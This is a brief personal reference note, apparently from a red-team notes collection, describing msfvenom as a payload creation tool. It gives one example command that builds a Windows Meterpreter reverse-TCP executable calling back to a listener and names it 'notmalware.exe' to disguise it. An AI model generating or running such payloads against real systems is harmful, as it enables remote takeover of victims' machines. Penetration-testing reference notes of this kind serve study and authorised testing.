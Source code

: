 #tool-red/exploitation 

malware/payload creation tool

example: 
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.128 LPORT=4444 -f exe -o notmalware.exe`
